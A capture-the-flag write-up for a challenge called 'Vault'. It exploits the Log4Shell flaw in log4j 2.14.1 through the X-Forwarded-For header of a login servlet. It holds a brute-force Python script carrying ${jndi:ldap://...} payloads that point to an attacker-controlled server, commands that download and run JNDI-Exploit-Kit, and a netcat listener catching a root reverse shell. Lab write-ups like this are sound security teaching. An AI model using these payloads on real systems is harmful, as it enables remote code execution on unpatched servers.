


# Vault

## Description

What’s in the Vault, stays in the Vault - But tokyo is not in a mood to agree with that! Help her to take a peek inside the vault.

## Solution

Browsing to the give URL we find a login page.


As we don't have any credentials we can try SQL Injection or bruteforcing credentials using wordlists. These attempts failed. Let's enumerate files/folders using `ffuf` tool.

```bash
ffuf -u http://18.224.169.226:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://18.224.169.226:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 8661, Words: 1464, Lines: 452]
backups                 [Status: 302, Size: 0, Words: 1, Lines: 1]
images                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

There is a `backups` folder. Let's access it.



Vault backup file is present. Let's download that to our machine.

```bash
wget http://18.224.169.226:8080/backups/vault.tar.gz
tar -xzf vault.tar.gz
```

We find the source code for this application inside `WEB-INF/src/`. 

```java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.*;
import java.util.Base64;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class SignIn extends HttpServlet{
        private static final Logger logger = LogManager.getLogger(SignIn.class);
    public void service(HttpServletRequest req, HttpServletResponse res)throws ServletException,IOException{
        String username = req.getParameter("username");
        String password = req.getParameter("password");
        if(username.equals("admin") && password.equals("admin")){
            HttpSession session=req.getSession();  
            session.setAttribute("username", username);
            RequestDispatcher rd =  req.getRequestDispatcher("home.jsp"); 
            rd.forward(req, res);
        }
        else{
            int count;
                HttpSession session=req.getSession();
                if (session.getAttribute("limit") == null)
            {
                session.setAttribute("limit", 0);
                res.sendRedirect("/?err=Invalid_Credentials");
            }
            else
            {
                try{
                 count = (Integer) session.getAttribute("limit");
                 if(count >= 10){
                    //Behind HeistFirewall
                    String ip =  req.getHeader("X-FORWARDED-FOR");
                    //Log the malicious attempt
                    logger.error("Malicious event detected from ip: ", ip);
                    res.sendRedirect("/blocked.jsp");
                }
                else{
                    System.out.println(count++);
                    session.setAttribute("limit", count++);
                    res.sendRedirect("/?err=Invalid_Credentials");
                }
            }
                catch (Exception e){
                    res.sendRedirect("/?err=Invalid_Credentials");
                }
            }
        }
    }
}
```

We see the credentials are `admin / admin` but they fail on this login page. It could be that the credentials are changed during deployment. Application is making use of log4j libraries for logging purposes.

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
```

It sets the limit 10 for failed logins. If limit reached then it logs the IP address retrieved from `X-FORWARDED-FOR` header. Looking at the `WEB-INF/lib` folder we find the version of log4j libraries.

```bash
ls -al
total 2004
drwxr-xr-x 1 root root      82 Feb 23 06:00 .
drwxr-xr-x 1 root root      40 Feb 23 06:00 ..
-rw-r--r-- 1 root root  300365 Feb 23 06:00 log4j-api-2.14.1.jar
-rw-r--r-- 1 root root 1745700 Feb 23 06:00 log4j-core-2.14.1.jar
```

As per [Apache](https://logging.apache.org/log4j/2.x/security.html) log4j official blog the issue is fixed in below versions.

```
2.17.1 (Java 8), 2.12.4 (Java 7) and 2.3.2 (Java 6)
```

Assuming if target server is using Java 8 then this application is vulnerable. Let's test this theory. We can script the login bruteforce using python.

```python
import requests

url = 'http://18.118.114.128:8080'

r = requests.get(url,allow_redirects=False)
c = r.headers['Set-Cookie'].split(';')[0].split('=')[1]
for i in range(0,12):
        r = requests.post(
                f'{url}/doSignIn',
                data={'username':'a','password':'b'},
                cookies={'JSESSIONID':c},
                headers={'X-Forwarded-For':'<payload>'}
                )
```

We start a DNS listener on either our burp collaborator or [interactsh](https://app.interactsh.com/#/). Let's update our script with the payload.

```python
headers={'X-Forwarded-For':'${jndi:ldap://c87t8382vtc0000fqrjggrwfyxoyyyyyd.interact.sh}'}
```

Running the script we receive a DNS lookup on the listener 



This confirms the vulnerability. Let's download [JNDI-Exploit-Kit.jar](https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar) file. 

```bash
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
apt install openjdk-8-jdk -y
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L <ip>:1389 -S <ip>:1234 -J <ip>:8000
```

We start listener on port 1234 and update the python script to send the payload of JDK 8.

```bash
headers={'X-Forwarded-For':'${jndi:ldap://3.144.168.250:1389/njoxrn}'}
```

Running the script we receive shell.

```bash
ubuntu@ip-172-31-30-222:~$ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 18.224.169.226 49200
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ace935a571bc:/usr/local/tomcat# id
uid=0(root) gid=0(root) groups=0(root)
```

Flag can be located in `/`. 

```bash
root@c765e37eadd3:/usr/local/tomcat# cat /flag.txt
ACVCTF{l0gg1ng_1s_d4nger0us_t00_(-_-)}
```

